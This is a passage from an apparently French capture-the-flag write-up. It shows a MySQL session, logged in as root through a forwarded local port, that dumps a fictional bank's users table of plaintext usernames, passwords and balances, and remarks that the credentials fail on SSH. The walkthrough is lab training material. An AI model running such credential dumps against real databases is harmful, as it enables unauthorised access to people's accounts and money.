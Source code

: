 et ça dumpe :  

```plain
$ mysql -u root -h 127.0.0.1 -P 33306 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 20
Server version: 5.6.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| HarborBankUsers    |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.015 sec)

MySQL [(none)]> use HarborBankUsers;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [HarborBankUsers]> show tables;
+---------------------------+
| Tables_in_HarborBankUsers |
+---------------------------+
| users                     |
+---------------------------+
1 row in set (0.003 sec)

MySQL [HarborBankUsers]> select * from users;
+----+----------+------------------+----------+
| id | username | password         | balance  |
+----+----------+------------------+----------+
|  6 | Admin    | yHNJ4Nm@HaVU-=XQ |     0.00 |
|  7 | Bill     | e_PLJ3cyVEVnxY7  |  2384.94 |
|  8 | Steve    | z_&=_KwMM*3D7AzC | 92324.37 |
|  9 | Jill     | ^&3JneRScU*Tt4-v |  3579.42 |
| 10 | Timothy  | $hBW!!NL52azb+HY |   514.90 |
| 11 | Quinten  | mvTvt3u-9CeVB@26 | 62124.84 |
+----+----------+------------------+----------+
6 rows in set (0.003 sec)
```

Ces identifiants ne permettent malheureusement pas d'accéder à un compte sur le service SSH. Ça aurait été un peu rapide à ce stade du CTF !  
